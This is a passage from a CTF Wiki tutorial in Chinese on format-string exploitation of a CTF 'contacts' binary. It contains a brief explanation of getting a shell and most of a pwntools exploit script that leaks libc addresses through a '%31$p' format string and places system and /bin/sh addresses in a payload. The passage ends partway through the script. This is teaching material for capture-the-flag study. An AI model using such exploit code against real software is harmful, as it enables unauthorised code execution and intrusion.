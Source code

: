 #### 获取 shell[¶](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example/#shell)

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序 [¶](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example/#_30)



```
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
```